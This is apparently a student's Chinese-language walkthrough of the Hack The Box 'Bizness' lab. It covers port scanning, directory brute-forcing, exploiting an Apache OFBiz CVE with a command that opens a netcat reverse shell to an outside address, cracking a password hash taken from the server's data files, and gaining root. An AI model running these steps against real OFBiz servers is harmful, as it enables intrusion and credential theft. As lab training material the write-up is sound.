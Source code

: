 # HTB Bizness
## 首先，利用 nmap 進行掃描
```
sudo nmap 10.10.11.252 -p- -sC -sV --min-rate 1000
```
![1](https://github.com/laisongqing/112-2_homworks/assets/128339947/4aba0292-ee9e-41cb-8dea-e74368643bd5)

## 把靶機的 ip 加入到 /etc/hosts 中
```
sudo vim /etc/hosts
```
![2](https://github.com/laisongqing/112-2_homworks/assets/128339947/5ab95d79-fd7c-4c29-9fcd-20aa19fdd67f)

## 到瀏覽器輸入 ip
```
10.10.11.252:80
```
![3](https://github.com/laisongqing/112-2_homworks/assets/128339947/e1504c59-50f1-40ee-9a8a-e55b6baf2757)

## 利用 dirsearch 爆破
```
dirsearch -u https://bizness.htb
```
### 發現了/control/login的存在
![4](https://github.com/laisongqing/112-2_homworks/assets/128339947/ebc0e301-bbf8-4dc8-a35b-a1bcb11a4de3)

## 到瀏覽器網址後輸入
```
/control/login
```
### 發現 OFBiz 登入頁面
![5](https://github.com/laisongqing/112-2_homworks/assets/128339947/f2b918b4-f64c-4309-83f8-b0a09a4946f9)

## OFBiz 有 CVE 漏洞
![6](https://github.com/laisongqing/112-2_homworks/assets/128339947/d151dd07-c06d-493d-b6cd-a85fb23d3587)

## 利用 exploit.py 攻擊
```
python3 exploit.py --url https://bizness.htb --cmd 'nc -c bash 10.10.14.11 6969'
```
![7](https://github.com/laisongqing/112-2_homworks/assets/128339947/012675ee-8ecc-42d6-bbab-54b21ad11a0c)

## nc 監聽成功
### 成功得到 user flag
![8](https://github.com/laisongqing/112-2_homworks/assets/128339947/26d63f15-5ad4-4144-b21b-33e18be9751e)

## 翻找靶機檔案
### 發現 /opt/ofbiz/runtime/data/berby/ofbiz/seg0 中，開啟 c54d0.dat 中，有個 hash 過的 password
![10](https://github.com/laisongqing/112-2_homworks/assets/128339947/9c200c7a-2c4f-49f4-b24c-c973cc66e46c)

## 利用 OFBiz-crack.py 來破解
```
python3 OFBiz-crack.py --hash-string '$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I'
```
![11](https://github.com/laisongqing/112-2_homworks/assets/128339947/0f9ad427-45d1-4a68-ae37-aa037c47daba)

### 破解成功
![12](https://github.com/laisongqing/112-2_homworks/assets/128339947/57254bff-09da-4b04-83e1-d2556a3d6b94)

## 提權
```
su -
```
### 輸入剛剛破解的密碼
### 成功獲得 root 權限，並且獲得 root flag
![13](https://github.com/laisongqing/112-2_homworks/assets/128339947/dbc3139f-1c41-4e09-ac98-1f8e954e38c5)

